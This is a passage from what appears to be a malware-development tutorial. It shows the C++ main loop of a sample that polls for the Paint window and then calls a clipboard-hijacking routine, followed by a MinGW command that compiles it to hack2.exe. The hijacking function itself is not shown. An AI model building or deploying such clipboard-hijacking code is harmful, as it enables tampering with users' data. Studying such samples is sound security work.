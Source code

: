 ```cpp
int isPaintRunning() {
  HWND hwnd = FindWindow(NULL, "Untitled - Paint");
  return hwnd != NULL;  // return 1 if paint is running, else 0
}

int main() {
  while (1) {
    if (isPaintRunning()) {
      printf("paint is running! hijacking clipboard...\n");
      hijackClipboard();  // hijack clipboard when paint is detected
    } else {
      printf("paint is not running.\n");
    }
    Sleep(5000);  // check every 5 seconds
  }
  return 0;
}
```

### demo 2

Let's go to see this example in action. Compile it:    

```bash
x86_64-w64-mingw32-g++ hack2.c -o hack2.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![malware](/assets/images/154/2025-05-13_00-25.png){:class="img-responsive"}    
